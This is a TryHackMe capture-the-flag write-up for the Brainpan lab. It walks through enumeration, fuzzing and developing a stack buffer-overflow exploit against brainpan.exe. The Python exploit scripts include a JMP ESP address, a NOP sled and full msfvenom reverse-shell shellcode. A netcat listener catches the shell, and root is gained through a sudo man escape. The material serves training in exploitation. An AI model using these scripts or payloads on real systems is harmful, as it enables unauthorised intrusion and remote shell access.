





# BrainPan

**Date:** 30, May, 2021

**Author:** Dhilip Sanjay S

---

[Click Here](https://tryhackme.com/room/brainpan) to go to the TryHackMe room.

## Enumeration

### Nmap 

```bash
nmap -sC -sV 10.10.222.251 -oN nmap.out
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-30 12:30 IST
Nmap scan report for 10.10.222.251
Host is up (0.16s latency).
Not shown: 998 closed ports
PORT      STATE SERVICE VERSION
9999/tcp  open  abyss?
| fingerprint-strings: 
|   NULL: 
|     _| _| 
|     _|_|_| _| _|_| _|_|_| _|_|_| _|_|_| _|_|_| _|_|_| 
|     _|_| _| _| _| _| _| _| _| _| _| _| _|
|     _|_|_| _| _|_|_| _| _| _| _|_|_| _|_|_| _| _|
|     [________________________ WELCOME TO BRAINPAN _________________________]
|_    ENTER THE PASSWORD
10000/tcp open  http    SimpleHTTPServer 0.6 (Python 2.7.3)
|_http-server-header: SimpleHTTP/0.6 Python/2.7.3
|_http-title: Site doesn't have a title (text/html).
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9999-TCP:V=7.91%I=7%D=5/30%Time=60B33822%P=x86_64-pc-linux-gnu%r(NU
SF:LL,298,"_\|\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20_\|\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\n_\|_\|_\|\x20\x20\x20\x20_\|\x20\x20_\|_\|\x20\x20\x20\x20_\|_\|_\|
SF:\x20\x20\x20\x20\x20\x20_\|_\|_\|\x20\x20\x20\x20_\|_\|_\|\x20\x20\x20\
SF:x20\x20\x20_\|_\|_\|\x20\x20_\|_\|_\|\x20\x20\n_\|\x20\x20\x20\x20_\|\x
SF:20\x20_\|_\|\x20\x20\x20\x20\x20\x20_\|\x20\x20\x20\x20_\|\x20\x20_\|\x
SF:20\x20_\|\x20\x20\x20\x20_\|\x20\x20_\|\x20\x20\x20\x20_\|\x20\x20_\|\x
SF:20\x20\x20\x20_\|\x20\x20_\|\x20\x20\x20\x20_\|\n_\|\x20\x20\x20\x20_\|
SF:\x20\x20_\|\x20\x20\x20\x20\x20\x20\x20\x20_\|\x20\x20\x20\x20_\|\x20\x
SF:20_\|\x20\x20_\|\x20\x20\x20\x20_\|\x20\x20_\|\x20\x20\x20\x20_\|\x20\x
SF:20_\|\x20\x20\x20\x20_\|\x20\x20_\|\x20\x20\x20\x20_\|\n_\|_\|_\|\x20\x
SF:20\x20\x20_\|\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20_\|_\|_\|\x20\x20_
SF:\|\x20\x20_\|\x20\x20\x20\x20_\|\x20\x20_\|_\|_\|\x20\x20\x20\x20\x20\x
SF:20_\|_\|_\|\x20\x20_\|\x20\x20\x20\x20_\|\n\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20_\|\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\n\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20_\|\n\n\[________________________\x20WELCOME\x20TO\x20BRAINPAN\x
SF:20_________________________\]\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20ENTER\x
SF:20THE\x20PASSWORD\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\n\n\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20>>\x20");

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

- The port 9999 is where the **vulnerable exe file** must be running. We can verify it by connecting using netcat:

```bash
nc 10.10.222.251 9999
_|                            _|                                        
_|_|_|    _|  _|_|    _|_|_|      _|_|_|    _|_|_|      _|_|_|  _|_|_|  
_|    _|  _|_|      _|    _|  _|  _|    _|  _|    _|  _|    _|  _|    _|
_|    _|  _|        _|    _|  _|  _|    _|  _|    _|  _|    _|  _|    _|
_|_|_|    _|          _|_|_|  _|  _|    _|  _|_|_|      _|_|_|  _|    _|
                                            _|                          
                                            _|

[________________________ WELCOME TO BRAINPAN _________________________]
                          ENTER THE PASSWORD                              

                          >> brainpan
                          ACCESS DENIED
```

### Gobuster
 
```bash
$ gobuster dir -u http://10.10.222.251:10000 -t 50 -w /usr/share/wordlists/dirb/common.txt | tee gobuster.out
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.222.251:10000
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/05/30 12:39:17 Starting gobuster in directory enumeration mode
===============================================================
/bin                  (Status: 301) [Size: 0] [--> /bin/]
/index.html           (Status: 200) [Size: 215]          
                                                         
===============================================================
2021/05/30 12:39:47 Finished
===============================================================
```


---

## Download the executable

- The **brainpan.exe** file can be found in the **/bin** directory (found using gobuster).
- Download the exe file to analyse it locally:

```bash
wget http://10.10.222.251:10000/bin/brainpan.exe
--2021-05-30 12:41:38--  http://10.10.222.251:10000/bin/brainpan.exe
Connecting to 10.10.222.251:10000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 21190 (21K) [application/x-msdos-program]
Saving to: ‘brainpan.exe’

brainpan.exe                         100%[===================================================================>]  20.69K  --.-KB/s    in 0.1s    

2021-05-30 12:41:39 (139 KB/s) - ‘brainpan.exe’ saved [21190/21190]
```

---

## Analyzing the exe using Immunity Debugger

- We have only the password field to be spiked. So, we'll directly get into fuzzing.
- **PS**: If there were more fields to be tested, spiking would make the process faster.

### Fuzzing

- Fuzzing script:

```py
#! /usr/bin/python3

import socket, time, sys

ip = "LOCAL_IP"
port = 9999
timeout = 5

payload = b'A'* 100

while True:
	try:
		s = socket.socket()
		s.settimeout(timeout)
		s.connect((ip, port))
		s.recv(1024)
		s.send(payload)
		print("Fuzzing with {} bytes".format(len(payload)))
		s.recv(1024)
		s.close()
	except:
		print("Fuzzing crashed at {} bytes".format(len(payload)))
		exit()
	payload += b'A' * 100
	time.sleep(1)
```

- OUTPUT:

```bash
./fuzzing.py 
Fuzzing with 100 bytes
Fuzzing with 200 bytes
Fuzzing with 300 bytes
Fuzzing with 400 bytes
Fuzzing with 500 bytes
Fuzzing with 600 bytes
Fuzzing crashed at 600 bytes
```

### Finding Offset

- Create a pattern of length 1000:

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1000
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2B
```

- Python script:

```py
#! /usr/bin/python3

import socket, time, sys

ip = "LOCAL_IP"
port = 9999
timeout = 5

payload = b'<PATTERN_GOES_HERE>'

try:
	s = socket.socket()
	s.settimeout(timeout)
	s.connect((ip, port))
	s.recv(1024)
	s.send(payload)
	print("Fuzzing with {} bytes".format(len(payload)))
	s.recv(1024)
	s.close()
except:
	print("Fuzzing crashed at {} bytes".format(len(payload)))
	exit()
```

- EIP value = 35724134
- Find the exact offset:

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 1000 -q 35724134
[*] Exact match at offset 524
```

### Finding Bad characters

- Generate all chars using python 
- Run the python script:

```py
#! /usr/bin/python3

import socket, time, sys, struct

ip = "LOCAL_IP"
port = 9999
timeout = 5

offset = 524
eip = b'B' * 4
allchars = b''.join([struct.pack('<B', x) for x in range(1,256)])

payload = [
	b'A' * offset,
	eip,
	allchars
]

payload = b''.join(payload)

try:
	s = socket.socket()
	s.settimeout(timeout)
	s.connect((ip, port))
	s.recv(1024)
	s.send(payload)
	print("Fuzzing with {} bytes".format(len(payload) - len(eip) - len(allchars)))
	s.recv(1024)
	s.close()
except:
	print("Fuzzing crashed at {} bytes".format(len(payload) - len(eip) - len(allchars)))
	exit()
```

- There are no bad chars in brainpan (except `\x00`)




### Finding right module

- To find the modules: `!mona modules`
- Only **brainpan.exe** has no memory protection.



- To find `JMP ESP` within that module: `!mona jmp -r esp -m brainpan.exe -cpb \x00`
- We have exactly one pointer which matches our location:



- So, the **EIP** value must be set to `311712F3`
- We can verify this by setting a breakpoint in **Immunity Debugger** and running the following script:

```py
#! /usr/bin/python3

import socket, time, sys, struct

ip = "LOCAL_IP"
port = 9999
timeout = 5

offset = 524
eip = b''.join([struct.pack('<I', 0x311712F3)])

payload = [
	b'A' * offset,
	eip,
]

payload = b''.join(payload)

try:
	s = socket.socket()
	s.settimeout(timeout)
	s.connect((ip, port))
	s.recv(1024)
	s.send(payload)
	print("Fuzzing with {} bytes".format(len(payload) - len(eip)))
	s.recv(1024)
	s.close()
except:
	print("Fuzzing crashed at {} bytes".format(len(payload) - len(eip)))
	exit()
```




### Shell code & Shell access

- All we got to do now is generate shell code:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=1234 EXITFUNC=thread -f py -b "\x00"
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of py file: 1712 bytes
buf =  b""
buf += b"\xb8\x46\x11\x18\x82\xda\xce\xd9\x74\x24\xf4\x5a\x31"
buf += b"\xc9\xb1\x52\x31\x42\x12\x03\x42\x12\x83\x84\x15\xfa"
buf += b"\x77\xf4\xfe\x78\x77\x04\xff\x1c\xf1\xe1\xce\x1c\x65"
buf += b"\x62\x60\xad\xed\x26\x8d\x46\xa3\xd2\x06\x2a\x6c\xd5"
buf += b"\xaf\x81\x4a\xd8\x30\xb9\xaf\x7b\xb3\xc0\xe3\x5b\x8a"
buf += b"\x0a\xf6\x9a\xcb\x77\xfb\xce\x84\xfc\xae\xfe\xa1\x49"
buf += b"\x73\x75\xf9\x5c\xf3\x6a\x4a\x5e\xd2\x3d\xc0\x39\xf4"
buf += b"\xbc\x05\x32\xbd\xa6\x4a\x7f\x77\x5d\xb8\x0b\x86\xb7"
buf += b"\xf0\xf4\x25\xf6\x3c\x07\x37\x3f\xfa\xf8\x42\x49\xf8"
buf += b"\x85\x54\x8e\x82\x51\xd0\x14\x24\x11\x42\xf0\xd4\xf6"
buf += b"\x15\x73\xda\xb3\x52\xdb\xff\x42\xb6\x50\xfb\xcf\x39"
buf += b"\xb6\x8d\x94\x1d\x12\xd5\x4f\x3f\x03\xb3\x3e\x40\x53"
buf += b"\x1c\x9e\xe4\x18\xb1\xcb\x94\x43\xde\x38\x95\x7b\x1e"
buf += b"\x57\xae\x08\x2c\xf8\x04\x86\x1c\x71\x83\x51\x62\xa8"
buf += b"\x73\xcd\x9d\x53\x84\xc4\x59\x07\xd4\x7e\x4b\x28\xbf"
buf += b"\x7e\x74\xfd\x10\x2e\xda\xae\xd0\x9e\x9a\x1e\xb9\xf4"
buf += b"\x14\x40\xd9\xf7\xfe\xe9\x70\x02\x69\x1c\x94\x0b\x32"
buf += b"\x48\x94\x13\xc0\x5a\x11\xf5\xa2\x4a\x74\xae\x5a\xf2"
buf += b"\xdd\x24\xfa\xfb\xcb\x41\x3c\x77\xf8\xb6\xf3\x70\x75"
buf += b"\xa4\x64\x71\xc0\x96\x23\x8e\xfe\xbe\xa8\x1d\x65\x3e"
buf += b"\xa6\x3d\x32\x69\xef\xf0\x4b\xff\x1d\xaa\xe5\x1d\xdc"
buf += b"\x2a\xcd\xa5\x3b\x8f\xd0\x24\xc9\xab\xf6\x36\x17\x33"
buf += b"\xb3\x62\xc7\x62\x6d\xdc\xa1\xdc\xdf\xb6\x7b\xb2\x89"
buf += b"\x5e\xfd\xf8\x09\x18\x02\xd5\xff\xc4\xb3\x80\xb9\xfb"
buf += b"\x7c\x45\x4e\x84\x60\xf5\xb1\x5f\x21\x15\x50\x75\x5c"
buf += b"\xbe\xcd\x1c\xdd\xa3\xed\xcb\x22\xda\x6d\xf9\xda\x19"
buf += b"\x6d\x88\xdf\x66\x29\x61\x92\xf7\xdc\x85\x01\xf7\xf4"
```

- Run the final Exploit:

```py
#! /usr/bin/python3

import socket, time, sys, struct

ip = "LOCAL_IP"
port = 9999
timeout = 5

offset = 524
eip = b''.join([struct.pack('<I', 0x311712F3)])
nop_sled = b'\x90' * 32

buf =  b""
# Add full buf here

payload = [
	b'A' * offset,
	eip,
	nop_sled,
	buf
]

payload = b''.join(payload)

try:
	s = socket.socket()
	s.settimeout(timeout)
	s.connect((ip, port))
	s.recv(1024)
	s.send(payload)
	print("Fuzzing with {} bytes".format(len(payload) - len(eip) - len(nop_sled) - len(buf)))
	s.recv(1024)
	s.close()
except:
	print("Fuzzing crashed at {} bytes".format(len(payload) - len(eip) - len(nop_sled) - len(buf)))
	exit()
```


Don't forget to add **NOP SLED** in the final exploit!


- Gain shell access using netcat:

```bash
$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.17.7.91] from (UNKNOWN) [LOCAL_IP] 49249
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\admin\Desktop\vulnerable-apps>whoami
whoami
oscp-bof-prep\admin
```


We have got the shell access for the local version only, we need to exploit the original server using this final exploit.


---

## Gain initial access

- Change the IP address and run the exploit again:

```bash
$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.17.7.91] from (UNKNOWN) [10.10.216.132] 40321
CMD Version 1.4.1

Z:\home\puck>echo %username%
puck
```

- But the commands seems to be alternating between windows and linux. So, I changed the payload to a linux shell: `linux/x86/shell_reverse_tcp`
- Upgrade the shell using: `python -c 'import pty; pty.spawn("/bin/bash")'`

---

## Escalate your privileges to root.

- Check for sudo permissions

```bash
puck@brainpan:/home/puck$ sudo -l
Matching Defaults entries for puck on this host:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User puck may run the following commands on this host:
    (root) NOPASSWD: /home/anansi/bin/anansi_util
```

- Checkout the binary which can be run without password:

```bash
puck@brainpan:/home/puck$ sudo /home/anansi/bin/anansi_util
Usage: /home/anansi/bin/anansi_util [action]
Where [action] is one of:
  - network
  - proclist
  - manual [command]
```

- The **man** command can be exploited to gain root access (Check GTFO bins):

```bash
puck@brainpan:/home/puck$ sudo /home/anansi/bin/anansi_util manual man
No manual entry for manual
WARNING: terminal is not fully functional
!/bin/sh

# whoami && hostname
root
brainpan
```


- There is also another way to gain root access via the binary: `/usr/local/bin/validate`
- It is an bufferoverflow exploit.
- Check this writeup for reference: [Infosec Writeup - Brainpan VM](https://resources.infosecinstitute.com/topic/brainpan_virtual_machine/) 


---